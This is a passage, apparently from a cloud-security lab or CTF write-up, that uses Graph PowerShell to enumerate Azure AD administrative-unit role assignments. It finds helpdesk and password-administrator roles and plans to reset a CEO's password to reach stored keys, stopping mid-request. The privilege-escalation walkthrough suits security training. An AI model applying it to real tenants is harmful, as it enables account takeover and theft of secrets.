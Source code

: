 ```
    if ($roleDetails.value.Count -gt 0) {
        foreach ($role in $roleDetails.value) {
            Write-Host "Role ID: $($role.id)"
            Write-Host "Display Name: $($role.displayName)"
            Write-Host "Description: $($role.description)"
            Write-Host "----------------------"
        }
    }
    else {
        Write-Host "No details found for Role ID: $roleId"
    }
}
```
With Graph module
```
└─PS> $ScopedRoleMembers = Get-MgDirectoryAdministrativeUnitScopedRoleMember -AdministrativeUnitId f123c66b-8c78-4bd1-947f-8d43b3a21d04
```
```
└─PS>  $ScopedRoleMembers
Id                                                                AdministrativeUnitId                 RoleId
--                                                                --------------------                 ------
Wz_yRLtppEGkF8VCd3LeQWvGI_F4jNFLlH-NQ7OiHQTEs2y1FcE6Tp41VhSioyw8S f123c66b-8c78-4bd1-947f-8d43b3a21d04 44f23f5b-69bb-41a4-a417-c5427772de41
4V6Zs0hlrkaGG7kWoM-NzmvGI_F4jNFLlH-NQ7OiHQTEs2y1FcE6Tp41VhSioyw8S f123c66b-8c78-4bd1-947f-8d43b3a21d04 b3995ee1-6548-46ae-861b-b916a0cf8dce
```
```
└─PS> Get-MgDirectoryRole -DirectoryRoleId 44f23f5b-69bb-41a4-a417-c5427772de41 | fl

DeletedDateTime      : 
Description          : Can manage all aspects of users and groups, including resetting passwords for limited admins.
DisplayName          : User Administrator
Id                   : 44f23f5b-69bb-41a4-a417-c5427772de41
Members              : 
RoleTemplateId       : fe930be7-5e62-47db-91af-98c3a49a38b1
ScopedMembers        : 
AdditionalProperties : {[@odata.context, https://graph.microsoft.com/v1.0/$metadata#directoryRoles/$entity]}
```
```
└─PS> Get-MgDirectoryRole -DirectoryRoleId b3995ee1-6548-46ae-861b-b916a0cf8dce | fl

DeletedDateTime      : 
Description          : Can reset passwords for non-administrators and Password Administrators.
DisplayName          : Password Administrator
Id                   : b3995ee1-6548-46ae-861b-b916a0cf8dce
Members              : 
RoleTemplateId       : 966707d0-3269-4727-9be2-8c3a10f19b9d
ScopedMembers        : 
AdditionalProperties : {[@odata.context, https://graph.microsoft.com/v1.0/$metadata#directoryRoles/$entity]}

```
It's very common for IT Helpdesk and user management software to have permissions to reset user passwords. In this case it seems that the password for the Mega Big Tech executive can only be reset through the HR system, perhaps as an additional security measure. We could reset the password for the CEO and access the keys
```
$headers = @{
    "Authorization" = "Bearer $token"
    "Content-Type" = "application/json"
```